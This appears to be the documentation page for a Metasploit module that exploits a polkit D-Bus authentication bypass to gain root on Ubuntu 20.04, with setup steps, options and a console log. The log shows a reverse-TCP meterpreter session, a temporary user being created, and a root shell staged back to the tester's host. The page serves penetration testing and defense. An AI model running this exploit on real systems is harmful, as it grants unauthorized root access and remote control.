 ## Description

This module exploits a authentication bypass in Linux machines that make use of the polkit system service.
The vulnerability enables an unprivileged local user to get a root shell on the system.

## Vulnerable Application
This module has been tested successfully on:
    
* Ubuntu 20.04

### Installation And Setup

Download and install Ubuntu 20.04 from the Ubuntu Downloads page: https://ubuntu.com/download/desktop

## Verification Steps
1. Start msfconsole.
2. Get a session.
3. Do: `use exploit/linux/local/polkit_dbus_auth_bypass`.
4. Set the `SESSION` to the session obtained in step 2.
5. Set the `LHOST`, `LPORT` and `PAYLOAD` options as appropriate.
6. Do: `run`.
7. It is possible for the exploit to fail, increase the ITERATIONS module option to attempt the exploit more times before failing and run again.
8. Enjoy the shell.

## Options

**SESSION**
The session to run this module on.

**USERNAME**
The name of the user the exploit will add to the system

**PASSWORD**
The password for the user to be created

**WritableDir**
Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Ubuntu 20.04
```
msf6 > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.146:49882) at 2021-06-25 17:54:45 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use polkit_dbus
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/local/polkit_dbus_auth_bypass  2021-06-03       excellent  Yes    Polkit Authentication Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/polkit_dbus_auth_bypass

[*] Using exploit/linux/local/polkit_dbus_auth_bypass
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4443
lport => 4443
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set session 1
session => 1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.123.1:4443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user msf
[+] User msf created with UID 1019
[*] Attempting to set the password of the newly create user, msf, to: NpJsQSti
[+] Obtained code execution has root!
[*] Writing '/tmp/vOWnn' (207 bytes) ...
[*] Sending stage (984904 bytes) to 192.168.123.146
[+] Deleted /tmp/vOWnn
[*] Meterpreter session 2 opened (192.168.123.1:4443 -> 192.168.123.146:42066) at 2021-06-25 17:55:27 -0400
[*] Attempting to remove the user added: 
[+] Successfully removed msf

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.123.146
OS           : Ubuntu 20.04 (Linux 5.8.0-55-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
